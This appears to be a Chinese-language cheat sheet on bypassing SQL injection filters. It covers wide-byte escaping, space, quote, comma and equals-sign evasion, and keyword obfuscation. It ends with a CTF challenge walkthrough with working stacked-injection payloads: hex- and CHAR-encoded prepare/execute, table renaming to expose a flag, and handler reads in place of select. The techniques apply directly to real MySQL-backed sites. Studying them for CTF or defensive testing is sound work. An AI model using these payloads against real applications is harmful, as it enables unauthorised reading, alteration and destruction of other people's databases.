

# 0x01 宽字节绕过
`addslashes()、mysql_real_escape_string()、mysql_escape_string()、Magic_quotes_gpcaddslashes()`等函数会在`'`,`"`等符号前加上`\`,来转译，
此时我们可以在会被转译的字符前加上`%df`，与`\(%5c)`,组陈`%df%5d`，这在GBK编码中是一个汉字。这样就把`\`，给吃掉了
# 0x02 空格过滤
1. `+`代替空格
2. URL编码绕过
	%20 %09 %0a %0b %0c %0d %a0 %00
3. 注释绕过
	`/**/` `/!/`详情见[安全狗各版本 绕过](安全狗各版本%20绕过.md)
4. 括号绕过
	在MySQL数据库中，任何查询中都可以使用括号嵌套SQL语句，可以利用括号绕过空格的过滤
	`select(user())from dual where(1=1)and(2=2)

# 0x03 绕过引号
这个时候如果引号被过滤了，那么上面的where子句就无法使用了。那么遇到这样的问题就要使用**十六进制**来处理这个问题了。users的十六进制的字符串是7573657273。那么最后的sql语句就变为了：

`select column_name from information_schema.tables where table_name=0x7573657273

# 0x04 逗号绕过
join绕过
`select 1,2,3`=`select * from (select 1)a join (select 2)b join(select 3)c`

# 0x05 绕过等于号
1. `<>`等价于`!=`，
2. 使用like模糊匹配

# 0x06 常规关键字绕过
1. 双写绕过
2. 大小写绕过

# 0x07 过滤select

## web10

可以先堆叠注入爆出数据库，数据表和字段

```http
/?inject=-1';show databses;--+

/?inject=-1';show tables;--+

/?inject=-1';show columns from `1919810931114514`;--+
```

**注意这里数字作为表名一定要加反引号**

得到flag在`1919810931114514`表的`flag`字段。

但是select注入时发现select被禁用。学习一下绕过方式。

## 方法一：预处理语句

使用set prepare execute 关键字，配合16进制或者char函数识别ascii码，实现字符串绕过。（因为直接编码可以识别到对应字符串但是不能作为代码执行）

### 语法

set @sql=`0x十六进制`/`char函数`；

prepare test from @sql；

execute test；

### payload

payload1:

```sql
/?inject=-1';Set@a= CONCAT(
    CHAR(115), CHAR(101), CHAR(108), CHAR(101), CHAR(99), CHAR(116), 
    CHAR(32), 
    CHAR(42),
    CHAR(32),  
    CHAR(102), CHAR(114), CHAR(111), CHAR(109), 
    CHAR(32),  
    CHAR(96), 
    CHAR(49), CHAR(57), CHAR(49), CHAR(57), CHAR(56), CHAR(49), CHAR(48), CHAR(57), CHAR(51), CHAR(49), CHAR(49), CHAR(49), CHAR(52), CHAR(53), CHAR(49), CHAR(52),  
    CHAR(96)  
);prepare test from @a;execute test;
```

payload2：

```sql
/inject=-1';
SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;
prepare execsql from @a;
execute execsql;#
```

两个都是执行的`` select * from `1919810931114514` ``

## 方法二：改表

因为查询语句是从words表中查询id字段，显示id和data

我们要从flag表中查flag字段。

所以我们可以把words表改为其他，把flag表改为words，然后得在新的words表中插入id字段，然后查询id就会回显flag

### payload

```sql
/inject=-1';
rename table words to word1; 
rename table `1919810931114514` to words;
alter table words add id int unsigned not Null auto_increment primary key; 
alter table words change flag data varchar(100);#
```

## 方法三： **handler代替select**

sql中可以使用handler语句一行一行的查看。绕过select。

### 语法

```sql
handler '表名' open;  /  handler '表名' open as '别名'; --打开
handler '表名' read first;  --读取第一行
handler '表名' read next;  --读取下一行（要先读取第一行）

--还可以：
handler '表名' read first/next limit 10；--显示下面10行或者从开始数的10行

handler '表名' close；  --释放空间
```

### payload：

```sql
/?inject=0';
handler `1919810931114514` open as a;handler a read first ;--+
```